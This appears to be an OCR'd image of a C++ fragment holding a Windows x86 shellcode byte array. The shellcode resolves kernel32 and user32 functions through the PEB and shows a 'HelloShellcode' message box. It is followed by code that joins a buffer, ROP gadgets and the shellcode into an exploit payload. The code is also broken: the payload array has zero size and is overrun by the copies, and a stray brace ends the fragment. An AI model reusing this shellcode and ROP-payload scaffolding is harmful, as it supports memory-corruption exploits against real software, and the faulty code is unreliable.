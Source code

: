 ```c++
    0x55, 0x8B, 0xEC, 0x83, 0xEC, 0x2C, 0x8D, 0x4D, 0xD4, 0xE8, 0x32, 0x00, 0x00, 0x00, 0x6A, 0x00, 
	0x6A, 0x00, 0x8D, 0x45, 0xF0, 0xC7, 0x45, 0xF0, 0x48, 0x65, 0x6C, 0x6C, 0x50, 0x6A, 0x00, 0xC7, 
	0x45, 0xF4, 0x6F, 0x53, 0x68, 0x65, 0xC7, 0x45, 0xF8, 0x6C, 0x6C, 0x63, 0x6F, 0x66, 0xC7, 0x45, 
	0xFC, 0x64, 0x65, 0xC6, 0x45, 0xFE, 0x00, 0xFF, 0x55, 0xEC, 0x8B, 0xE5, 0x5D, 0xC3, 0xCC, 0xCC, 
	0x55, 0x8B, 0xEC, 0x83, 0xEC, 0x44, 0x53, 0x56, 0x57, 0x89, 0x4D, 0xF0, 0xC7, 0x45, 0xFC, 0x00, 
	0x00, 0x00, 0x00, 0x64, 0xA1, 0x30, 0x00, 0x00, 0x00, 0x8B, 0x40, 0x0C, 0x8B, 0x40, 0x0C, 0x8B, 
	0x00, 0x8B, 0x00, 0x8B, 0x40, 0x18, 0x89, 0x45, 0xFC, 0x8B, 0x5D, 0xFC, 0x8D, 0x4D, 0xBC, 0xC7, 
	0x45, 0xBC, 0x47, 0x65, 0x74, 0x50, 0xC7, 0x45, 0xC0, 0x72, 0x6F, 0x63, 0x41, 0xC7, 0x45, 0xC4, 
	0x64, 0x64, 0x72, 0x65, 0x8B, 0x43, 0x3C, 0x66, 0xC7, 0x45, 0xC8, 0x73, 0x73, 0xC6, 0x45, 0xCA, 
	0x00, 0x8B, 0x44, 0x18, 0x78, 0x03, 0xC3, 0x89, 0x45, 0xF4, 0x81, 0xF9, 0xFF, 0xFF, 0x00, 0x00, 
	0x76, 0x66, 0x8B, 0x48, 0x18, 0x33, 0xFF, 0x89, 0x4D, 0xF8, 0x85, 0xC9, 0x74, 0x44, 0x8B, 0x70, 
	0x20, 0x03, 0xF3, 0x8B, 0x06, 0x8D, 0x4D, 0xBC, 0x03, 0xC3, 0x8D, 0x9B, 0x00, 0x00, 0x00, 0x00, 
	0x8A, 0x11, 0x3A, 0x10, 0x75, 0x1A, 0x84, 0xD2, 0x74, 0x12, 0x8A, 0x51, 0x01, 0x3A, 0x50, 0x01, 
	0x75, 0x0E, 0x83, 0xC1, 0x02, 0x83, 0xC0, 0x02, 0x84, 0xD2, 0x75, 0xE4, 0x33, 0xC0, 0xEB, 0x05, 
	0x1B, 0xC0, 0x83, 0xC8, 0x01, 0x85, 0xC0, 0x74, 0x0D, 0x47, 0x83, 0xC6, 0x04, 0x3B, 0x7D, 0xF8, 
	0x72, 0xC1, 0x33, 0xC0, 0xEB, 0x28, 0x8B, 0x55, 0xF4, 0x8B, 0x42, 0x24, 0x8D, 0x04, 0x78, 0x0F, 
	0xB7, 0x0C, 0x18, 0x8B, 0x42, 0x1C, 0xEB, 0x0E, 0x8D, 0x4D, 0xBC, 0x2B, 0x48, 0x10, 0x3B, 0x48, 
	0x14, 0x73, 0xDF, 0x8B, 0x40, 0x1C, 0x8D, 0x04, 0x88, 0x8B, 0x04, 0x18, 0x03, 0xC3, 0x8B, 0x75, 
	0xF0, 0x8D, 0x4D, 0xCC, 0x51, 0x53, 0xC7, 0x45, 0xCC, 0x4C, 0x6F, 0x61, 0x64, 0x89, 0x06, 0xC7, 
	0x45, 0xD0, 0x4C, 0x69, 0x62, 0x72, 0xC7, 0x45, 0xD4, 0x61, 0x72, 0x79, 0x41, 0xC6, 0x45, 0xD8, 
	0x00, 0xFF, 0xD0, 0x8D, 0x4D, 0xE8, 0x89, 0x46, 0x04, 0x51, 0xC7, 0x45, 0xE8, 0x75, 0x73, 0x65, 
	0x72, 0x66, 0xC7, 0x45, 0xEC, 0x33, 0x32, 0xC6, 0x45, 0xEE, 0x00, 0xFF, 0xD0, 0x8D, 0x4D, 0xDC, 
	0xC7, 0x45, 0xDC, 0x4D, 0x65, 0x73, 0x73, 0x51, 0x50, 0x8B, 0x06, 0xC7, 0x45, 0xE0, 0x61, 0x67, 
	0x65, 0x42, 0xC7, 0x45, 0xE4, 0x6F, 0x78, 0x41, 0x00, 0xFF, 0xD0, 0x5F, 0x89, 0x46, 0x18, 0x5E, 
	0x5B, 0x8B, 0xE5, 0x5D, 0xC3
};

char szPayLoad[]={};

//拼接数据
RtlCopyMemory(szPayLoad,szBuf,sizeof(szBuf));

RtlCopyMemory(szPayLoad+sizeof(szBuf),rop_gadgets,sizeof(rop_gadgets));

RtlCopyMemory(szPayLoad+sizeof(szBuf)+sizeof(rop_gadgets),szShellcode,sizeof(szShellcode));

};

```